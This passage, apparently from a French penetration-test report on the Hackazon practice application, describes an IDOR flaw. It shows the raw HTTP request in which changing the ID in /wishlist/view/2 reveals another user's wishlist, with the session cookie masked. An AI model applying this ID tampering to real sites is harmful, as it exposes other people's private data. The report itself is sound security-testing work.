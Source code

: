 ###### Un dernier problème d'autorisation à été trouvé

![iDOR whishlist utilisateur](Vulns/iDOR/screen_whishlist.png)

Sur la capture d'écran si-dessus nous avons pu accèder à la whishlist d'une personne tierse qui n'appartenait pas à l'utisateur utilisé lors du test. L'attaque est possible en changeant arbitrairement le numéro dans le chemin de l'url.

Voici la requête vulnérable:

```
GET /wishlist/view/2 HTTP/2
Host: hackazon.trackflaw.com
Cookie: visited_products=%2C64%2C72%2C1%2C81%2C; PHPSESSID=XXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Pwnfox-Color: red
Priority: u=0, i
Te: trailers
```
Le cookie de session PHPSESSID à été volontairement remplacé par des 'X'. 

